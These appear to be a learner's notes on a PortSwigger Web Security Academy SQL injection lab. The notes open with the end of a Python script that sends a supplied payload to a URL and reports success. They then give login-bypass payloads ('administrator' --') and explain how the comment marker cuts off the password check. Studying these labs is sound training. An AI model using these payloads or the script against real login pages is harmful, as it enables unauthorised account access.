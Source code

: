```
        return True
    else:
        return False

if __name__ == "__main__":
    try:
        url = sys.argv[1].strip()
        payload = sys.argv[2].strip()
    except IndexError:
        print("[-] Usage: %s <url> <payload>" % sys.argv[0])
        print('[-] Example: %s www.example.com "1=1"' % sys.argv[0])
        sys.exit(-1)

    if exploit_sqli(url, payload):
        print("[+] SQL injection successful!")
    else:
        print("[-] SQL injection unsuccessful!")
```

# vulnerability allowing login bypass
https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-subverting-application-logic/sql-injection/lab-login-bypass#

in login always try out this one

```
admin' --
administrator' --
```

this is effective when we know username

Verify by putting `'`
### Used Payload
```
administrator' --
```

which means
```
SELECT firstname FROM users where username='administrator'--' and password='admin'
```
it will neglect rest of code after --

### Notes
SQL injection - Login functionality

End Goal: perform SQLi attack and log in as the administrator user. 


**Analysis:**

SELECT firstname FROM users where username='admin' and password='admin'
